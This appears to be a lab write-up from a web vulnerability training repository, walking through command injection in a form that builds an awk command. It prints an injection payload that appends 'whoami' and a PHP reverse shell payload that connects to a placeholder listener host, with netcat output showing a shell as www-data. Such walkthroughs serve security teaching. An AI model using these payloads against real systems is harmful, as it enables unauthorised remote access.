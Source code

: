 # Challange

### Website Interface:

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/bb4495ee-93e9-4730-be34-f344f9777c03)

- When entering values in the input boxes, a corresponding output is generated. 

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/b8658bac-bd72-4975-b28e-cb6ac6e81185)

- Upon inspecting the source code, I discovered certain elements or information.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/4319fd1c-00db-41f2-a3c7-62d0a371177f)

- It appears that I can potentially use the output.
- By entering the "random" value or input, I encountered a specific response or behavior.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/75c1dc58-2d71-4c9b-a2b2-412c204c387f)

```html
<div class="p-5 mb-4 bg-light rounded-3" style="background-color: none !important; padding: 0 !important">
		            <p class="text-center">Executed: awk 'BEGIN {print sqrt(((-123)^2) + ((-789)^2))}'<br>Result: 798.53
</p>
		        </div>
```
- After attempting various options, one of them eventually proved successful in achieving the desired outcome.
- After modifying the "cmd" and injecting the `whoami` command, the system responded with the output displaying the username that is www-data.

- cmd: `789)^2))}';whoami;#`

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/a8a3314e-a231-4d18-815b-7b6d8ad44027)

```html
		<div class="p-5 mb-4 bg-light rounded-3" style="background-color: none !important; padding: 0 !important">
		            <p class="text-center">Executed: awk 'BEGIN {print sqrt(((-123)^2) + ((-789)^2))}';whoami;#)^2))}'<br>Result: 798.53
www-data
</p>
```
- After experimenting with different payloads, you successfully landed on a PHP reverse shell, allowing you to regain a shell connection to the system.
- cmd: `789)^2))}';php -r '$sock=fsockopen("<LHOST>",1234);exec("/bin/sh -i <&3 >&3 2>&3");';#`

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/ebd2fff6-6ff7-4a57-b4a4-0a9a676aaed9)

```bash
└─$ rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.251.186] from (UNKNOWN) [172.18.0.4] 50032
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
